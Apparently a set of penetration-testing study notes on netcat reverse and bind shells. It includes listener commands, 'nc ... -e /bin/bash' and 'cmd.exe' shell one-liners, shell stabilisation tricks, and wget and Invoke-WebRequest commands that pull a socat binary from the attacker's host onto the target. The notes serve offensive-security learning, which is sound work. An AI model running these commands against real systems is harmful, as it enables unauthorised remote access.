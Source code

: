 Bind shells:
- Code executed on target is used to start a listener attached to a shell directly on the target
- Would then connect to port via internet to obtain remote code execution
- Doesn't require setup on your own network
- May be prevented by firewalls protecting target

### How to Run Reverse Shells

On the attacking machine: `sudo nc -lvnp 443`

On the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

### How to Run Bind Shells

On the target, want to get a port and tell it to execute `cmd.exe`: `nc -lvnp <port> -e "cmd.exe"`

On the attacking machine: `nc MACHINE_IP <port>`

# Running Netcat Shells

Syntax for starting a netcat listener for a **reverse shell** using Linux: 'nc -lvnp <port-number>'

**Note:** Will need to use 'sudo' when starting listener if port number is below 1024

Syntax to obtain a **bind shell** on a target: 'nc <target-ip> <chosen-port>'

# Netcat Shell Stabilization

Netcat shells are very unstable without techniques used to stabilize them.

### Technique 1: Python

1. Use Python to spawn a better bash shell using `python -c 'import pty;pty.spawn("/bin/bash")'`
2. Use `export TERM=xterm` to get access to term commands i.e. 'clear'
3. Turn off the terminal and foreground the shell using `stty raw -echo; fg`

### Technique 2: rlwrap

1. Install rlwrap using `sudo apt install rlwrap`
2. Invoke the rlwrap listener using `rlwrap nc -lvnp <port>`
3. If using Linux, complete the stabilization by using `stty raw -echo; fg`

### Technique 3: Initial netcat shell as a stepping stone into socat shell

1. Transfer socat static compiled binary to target machine using `sudo python3 -m http.server 80`
2. Use netcat shell to download the compiled binary file, using `wget <LOCAL-IP>/socat -O /tmp/socat` on Linux or `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

### How to change terminal size

1. Open another terminal and run `stty -a` and note the values shown for numbers of rows and columns
2. Type `stty rows <number>` and `stty cols <number>` in reverse terminal to change width/height of terminal
